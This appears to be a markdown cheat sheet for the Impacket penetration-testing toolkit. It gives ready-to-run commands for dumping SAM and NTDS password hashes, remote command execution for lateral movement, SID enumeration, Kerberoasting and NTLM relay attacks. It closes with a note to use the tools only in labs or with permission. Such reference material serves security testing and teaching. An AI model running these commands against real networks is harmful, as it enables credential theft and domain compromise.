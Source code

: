 ## 📦 Key Tools in Impacket

Here are the most commonly used Impacket scripts:

| Tool             | Description                                 |
| ---------------- | ------------------------------------------- |
| `smbclient.py`   | SMB client (like a Linux `smbclient`)       |
| `secretsdump.py` | Dump hashes (SAM, NTDS) remotely            |
| `wmiexec.py`     | Remote command execution via WMI            |
| `psexec.py`      | Execute commands as a service (like PsExec) |
| `smbexec.py`     | Command execution via SMB                   |
| `ntlmrelayx.py`  | SMB/HTTP relay attack tool                  |
| `rpcdump.py`     | Dump RPC endpoints                          |
| `lookupsid.py`   | Enumerate SIDs to usernames                 |
| `ticketer.py`    | Create custom Kerberos tickets              |
| `getTGT.py`      | Request a TGT using a password/hash         |
| `getUserSPNs.py` | Extract SPNs for Kerberoasting              |

---

## 🔐 Credential Formats

Impacket supports:

- Plaintext: `username:password`    
- NTLM Hash: `username:HASH:NTHASH`
- Kerberos: `-k -no-pass` with ticket from `KRB5CCNAME`
- Domain users: `DOMAIN/username`

---
## 🧪 Example Usage

### ✅ 1. SMB File Access

```
smbclient.py WORKGROUP/user:password@10.10.10.10
```

### ✅ 2. Remote Command Execution (PsExec)

```
psexec.py WORKGROUP/admin:password@10.10.10.10
```

### ✅ 3. WMI Execution

```
wmiexec.py WORKGROUP/admin:password@10.10.10.10
```

### ✅ 4. Dumping Hashes

```
secretsdump.py WORKGROUP/admin:password@10.10.10.10
```

You can also dump from local SAM/SECURITY/NTDS files:

```
secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
```

### ✅ 5. SID Enumeration

```
lookupsid.py WORKGROUP/user:password@10.10.10.10
```

### ✅ 6. Kerberoasting (SPNs)

```
getUserSPNs.py -request WORKGROUP/user:password
```

---

## 🛡️ NTLM Relay Attacks

Using `ntlmrelayx.py` to capture and relay authentication:

```
ntlmrelayx.py -tf targets.txt -smb2support
```

Start responder or mitm6 to capture hashes and relay them with `ntlmrelayx`.

---

## 🎓 Best Use Cases

| Use Case              | Tool                            |
| --------------------- | ------------------------------- |
| Hash dumping          | `secretsdump.py`                |
| Lateral movement      | `psexec.py`, `wmiexec.py`       |
| SMB enumeration       | `smbclient.py`, `lookupsid.py`  |
| Relay attacks         | `ntlmrelayx.py`                 |
| Kerberos exploitation | `ticketer.py`, `getUserSPNs.py` |

---
## ⚠️ Tips

- For hash-based auth, use `-hashes <LM>:<NT>` instead of passwords.    
- Use in isolated labs or with permission only—these tools are **intrusive**.
- Use Kerberos ticketing tools with care—clock skew will break auth.

